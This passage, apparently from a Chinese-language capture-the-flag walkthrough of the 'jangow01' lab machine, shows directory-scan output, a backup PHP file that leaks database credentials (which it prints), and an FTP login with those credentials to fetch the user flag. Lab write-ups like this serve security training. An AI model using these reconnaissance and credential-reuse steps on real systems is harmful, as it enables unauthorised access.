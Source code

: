 ```shell
[10:11:04] 403 -  279B  - /.php3
[10:11:27] 403 -  279B  - /server-status
[10:11:27] 403 -  279B  - /server-status/
[10:11:28] 301 -  315B  - /site  ->  http://192.168.47.136/site/
[10:11:28] 200 -   10KB - /site/

Task Completed
```

  web服务的主目录为site，同级还存在很多其他的文件，我们使用前面的命令注入漏洞访问一下各种文件，可以在.backup文件中发现关键信息：

```shell
$servername = "localhost";
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);
```

该文件应该是用来连接数据库的，但是泄露了jangow01的用户名和密码。

# 3. Initial Access

使用jangow01的用户名和密码登录ftp，在`/home/jangow01`目录下发现了`user.txt`文件：

```shell
ftp> ls
229 Entering Extended Passive Mode (|||5764|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000           33 Jun 10  2021 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||5771|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |**************************************************************************************************************|    33       92.60 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (46.97 KiB/s)
```

文件内容如下：

```shell
d41d8cd98f00b204e9800998ecf8427e
```
